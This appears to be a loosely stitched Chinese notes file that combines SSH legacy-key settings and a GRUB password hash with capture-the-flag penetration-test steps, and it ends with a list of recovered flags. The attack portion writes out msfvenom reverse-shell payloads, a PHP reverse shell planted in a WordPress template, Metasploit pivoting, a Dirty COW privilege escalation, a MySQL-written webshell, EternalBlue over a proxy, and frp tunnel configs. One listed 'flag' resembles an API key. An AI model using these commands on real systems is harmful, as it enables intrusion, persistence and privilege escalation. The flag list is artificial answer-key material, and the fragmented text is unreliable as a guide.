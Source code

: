 use ip addr 192.168.1.155/24 dev eth1
ifconfig eth1 up

16.04 中包含的 OpenSSH 版本禁用 ssh-dss。有一个包含此问题的遗留信息的简洁页面：[http://www.openssh.com/legacy.html](http://www.openssh.com/legacy.html)

添加网卡：[blog.51cto.com/506554897/1742070](https://blog.51cto.com/506554897/1742070)
service network restart

简而言之，您应该将选项添加`-oHostKeyAlgorithms=+ssh-dss`到 SSH 命令中：

```
ssh -oHostKeyAlgorithms=+ssh-dss root@192.168.8.109
```

---

您还可以在您的文件中添加主机模式，`~/.ssh/config`这样您就不必每次都指定密钥算法：

```
Host nas
  HostName 192.168.8.109
  HostKeyAlgorithms=+ssh-dss
```

这样做的另一个好处是您无需键入 IP 地址。相反，`ssh`将识别主机`nas`并知道连接到哪里。当然，您可以使用任何其他名称代替。

解决办法是`ssh`命令指定算法:

```
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa  user@host -p 2222
```

上面比较麻烦, 可以修改ssh配置文件 _~/.ssh/config_, 对于无法成功连接的host, 增加配置项:

~/.ssh/config

```
HostKeyAlgorithms +ssh-rsaPubkeyAcceptedKeyTypes +ssh-rsa
```

完整配置如下:

~/.ssh/config

```
Host ssh.alanwei.com  HostName ssh.alanwei.com  User alan  Port 22  HostKeyAlgorithms +ssh-rsa  PubkeyAcceptedKeyTypes +ssh-rsa
```
[linux 6.6用户名密码,CentOS6.6设置grub密码的方法-CSDN博客](https://blog.csdn.net/weixin_28797725/article/details/116629461)
编辑grub配置文件#vi /etc/grub.conf
grub-crypt --md5

使用命令设置md5加密密码，复制生成的md5码
打开之后在hiddenmenu下一行输入，粘贴生成的md5码
password --md5 $1$Vk/Pvw4.$i8b0feQIqez/CRInfnhcq0
```C
[root@localhost~]# grub-crypt --md5
Password:
Retype password:

$1$Vk/Pvw4.$i8b0feQIqez/CRInfnhcq0
```


```C
phpMyAdmin-4.0.0-all-languages.zip
wordpress-5.0.3-zh_CN.zip
```

# 做题
在wordpress数据库中找到wp_users表
查询： select * from 'wp_users'

update wp_users set user_pass=md5("52ctfhahaha") where user_login='eveng';

利用MSF生成反弹shell :  没有用
msfvenom -p php/meterpreter/reverse_tcp LHOST=Kali的IPLPORT=4444 -o Desktop/shell.php

利用Kali Linux自带反弹shell

root@kali:~# cat /usr/share/webshells/php/php-reverse-shell.php
复制此shell代码到404模板，修改IP为Kali地址，端口为4444

![[Pasted image 20240402153412.png]]

使用netcat，监听4444端口:nc -nlvp 4444



浏览器访问不存在的页面，触发404文件执行，例如http://靶机ip/?p=666

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机ip LPORT=8000 -f elf > shell_8000.elf
反弹shell
攻击机运行msfconsole，使用exploit/multi/handler模块，set payload linux/x86/meterpreter/reverse_tcp跟生成木马时用的payload一样。LPORT设置成木马将要连接的端口，运行后会在攻击机上监听一个端口，等待木马链接。

```C
在meterpreter会话内配置
run get_local_subnets
run autoroute -p
run autoroute -s 192.168.194.0/24

在msf内配置
route print
route add 192.168.194.0 255.255.255.0 1
```

```C
searchsploit dirty
locate linux/local/40847.cpp #定位40847.cpp的位置
cp /usr/share/exploitdb/exploits/linux/local/40847.cpp /tmp #将40847.cpp复制到/tmp目录下
```
下载到Kali桌面并进入目录，使用gcc编译gcc -pthread dirty.c -o dirty -lcrypt

设置为执行权限

chmod +x dirty

使用python开启http服务器

Python-m SimpleHTTPServer 80

执行dirty完成提权，
获得登录信息. ./dirty new password (任意密码)

```C
方法2(权限不够没法弄)
[blog.51cto.com/sunjikui/5994467](https://blog.51cto.com/sunjikui/5994467)
show variables like "%general_log%";
set global general_log='on';
set global general_log_file="//var//www//html//shell.php";
select "<?php system($_REQUEST[cmd]);?>"

```


auxiliary/server/socks_proxy-------------------------set SRVHOST  192.168.44.128

vim /etc/proxychains4.conf
proxychains nmap --script=vuln -sT -Pn 192.168.194.133

use windows/smb/ms17_010_eternalblue
setg Proxies socks5:192.168.44.128:1080
set ReverseAllowProxy true

psexec这个模块默认是反向连接的，我们使用了代理，要使用正向连接set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.194.133设置目标

python -c 'import pty; pty.spawn("/bin/bash")'

[内网渗透-利用frp代理流量后msf攻击内网永恒之蓝漏洞（ms17-010）-永恒之蓝利用失败的原因\_frp漏洞-CSDN博客](https://blog.csdn.net/weixin_42109829/article/details/122554815)

攻击机frps
```C
[common]
bind_addr = 0.0.0.0        # 设置监听的ip ，一般是你的外网ip，0.0.0.0表示都监听
bind_port = 8000           # 监听的端口，等待客户端连接 
dashboard_addr = 0.0.0.0   # frp网站服务器的ip，可以访问登录
dashboard_port = 7600       # frp网站服务器的端口，可以访问登录
dashboard_user = root       # frp网站服务账号
dashboard_pwd  = 123456    # frp网站服务密码
token = 1q2w3e             # 客户端的连接密码
heartbeat_timeout = 90     # 连接超时的时间
max_pool_count = 5		   # 允许连接的客户端数量
```

靶机frpc
```C
[common]
tls_enable = true
server_addr = *.*.*.*         # vps 服务器地址 
server_port = 8000          # vps服务器监听地址
token = 1q2w3e              # 设置的密码 ，设置完流量加密，不好解。      
pool_count = 5            # 将提前建立连接，默认值为 0
protocol = tcp              # 通信方式
health_check_type = tcp    # frpc 将连接本地服务的端口以检测其健康状态
health_check_interval_s = 100   # 健康检查时间间隔
[proxies]
remote_port = 6000  # 把流量转发到vps 那个端口 ，这个是重点等下会用到
plugin = socks5        #plugin 表示为插件 
use_encryption = true   
use_compression = true
```

50 45 --> 51 51
55 50 58 --> 51 51 51

第一套
flag1{b31036cc-75a9-4fcc-9259-2fd355585d69} index.php
          
flag3{e163fcd1-4326-4dc9-baa4-d315ee57e604} 姓名
           
flag5{7a1cc285-65ff-4b51-824d-a831ba520f7c} cat /flag

flag7{26c81534-cf66-417c-97f0-b026a4e8c457} Game_Of_Life

flag9{e306552d-3573-4dc8-986f-fcd93f921e9b} systemview 13

give_the_Shykey:123456789012345678901234
flag{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} HeyChat


flag{1c634ffd-5d02-4226-a503-85b555edb796}  win7桌面
flag{f4328e59-7b6d-4f29-b34f-f2d7ce0c685f}    rootflag.txt
